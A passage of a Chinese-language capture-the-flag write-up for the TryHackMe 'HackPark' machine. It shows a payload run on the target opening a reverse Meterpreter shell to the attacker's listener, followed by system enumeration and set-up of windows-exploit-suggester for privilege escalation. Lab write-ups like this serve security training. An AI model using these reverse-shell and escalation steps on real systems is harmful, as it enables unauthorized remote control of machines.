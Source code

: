 + 反弹shell:

   ```
   shell.exe
   C:\Windows\Temp>shell.exe
   ```
   ```
   msf6 exploit(multi/handler) > run

   [*] Started reverse TCP handler on 10.11.61.123:4446 
   [*] Sending stage (175686 bytes) to 10.10.23.45
   [*] Meterpreter session 1 opened (10.11.61.123:4446 -> 10.10.23.45:49243) at 2023-12-09 02:16:46 -0500

   meterpreter >    
   ```
   已经切换meterpreter shell

## 枚举查找异常

+ 获取系统版本信息：

   ```
   meterpreter > sysinfo
   Computer        : HACKPARK
   OS              : Windows 2012 R2 (6.3 Build 9600).
   Architecture    : x64
   System Language : en_US
   Domain          : WORKGROUP
   Logged On Users : 1
   Meterpreter     : x86/windows
   ```

### windows-exploit-suggester 识别漏洞并提权

```
┌──(kali㉿kali)-[~/桌面/THM/HackPark]
└─$ sudo  python2 windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2023-12-09-mssb.xls
[*] done

┌──(kali㉿kali)-[~/桌面/THM/HackPark]
└─$ pip3 install --upgrade xlrd  
Defaulting to user installation because normal site-packages is not writeable
Looking in indexes: http://pypi.douban.com/simple
Requirement already satisfied: xlrd in /usr/local/lib/python3.11/dist-packages (2.0.1)
WARNING: The repository located at pypi.douban.com is not a trusted or secure host and is being ignored. If this repository is available via HTTPS we recommend you use HTTPS instead, otherwise you may silence this warning and allow it anyway with '--trusted-host pypi.douban.com'.

┌──(kali㉿kali)-[~/桌面/THM/HackPark]
└─$ pip show xlrd               
Name: xlrd
Version: 2.0.1
Summary: Library for developers to extract data from Microsoft Excel (tm) .xls spreadsheet files
Home-page: http://www.python-excel.org/
Author: Chris Withers
Author-email: chris@withers.org
License: BSD
Location: /usr/local/lib/python3.11/dist-packages
Requires: 
Required-by: 

┌──(kali㉿kali)-[~/桌面/THM/HackPark]
```